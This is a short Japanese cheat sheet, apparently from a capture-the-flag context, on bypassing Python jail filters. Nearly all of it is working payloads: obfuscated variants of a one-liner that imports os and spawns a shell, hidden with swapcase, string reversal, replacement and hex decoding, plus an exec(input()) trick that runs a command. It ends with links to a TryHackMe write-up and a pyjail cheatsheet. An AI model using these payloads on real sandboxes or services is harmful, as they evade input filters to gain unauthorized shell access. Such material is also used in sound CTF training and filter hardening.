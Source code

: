 # フィルターバイパス

## 例１

```
__builtins__.__dict__['__import__']('os').__dict__['system']('sh')
```

の様々な表現

```sh
>> __builtins__.__dict__['__IMPORT__'.swapcase()]('OS'.swapcase()).__dict__['SYSTEM'.swapcase()]('SH'.swapcase())

>> __builtins__.__dict__['__tropmi__'[::-1]]('so'[::-1]).__dict__['metsys'[::-1]]('hs'[::-1])

>> __builtins__.__dict__['__imXport__'.replace('X','')]('oXs'.replace('X','')).__dict__['sXystem'.replace('X','')]('sXh'.replace('X',''))

>> __builtins__.__dict__[str(bytes.fromhex('5f5f696d706f72745f5f'),'utf-8')](str(bytes.fromhex('6f73'),'utf-8')).__dict__[str(bytes.fromhex('73797374656d'),'utf-8')](str(bytes.fromhex('7368'),'utf-8'))

>> __builtins__.__dict__['cexe'[::-1]](input())
__import__("os").system("id")
```

https://jaxafed.github.io/posts/tryhackme-breakme/#shell-as-root

## ユニコードバイパス

https://shirajuki.js.org/blog/pyjail-cheatsheet#unicode-bypass
